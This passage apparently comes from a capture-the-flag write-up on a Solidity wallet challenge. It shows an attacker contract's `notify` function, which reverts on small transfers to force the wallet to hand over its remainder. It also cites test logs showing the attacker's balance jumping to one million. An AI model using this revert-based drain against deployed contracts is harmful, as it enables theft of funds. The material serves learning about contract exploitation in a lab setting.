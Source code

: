 ```solidity
    function notify(uint256 _amount) pure public {        
        //revert on wallet.donate10(msg.sender), ie. amount=10
        //but don't revert on wallet.transferRemainder(msg.sender), ie. amount=1000000
        if(_amount <= 10) {
            revert NotEnoughBalance();
        }        
    }
}
```

Indeed, in the foundry Test script logging we see that `coin.balances(<attacker_address>)` goes from 0 to 1 million after calling `attack()`.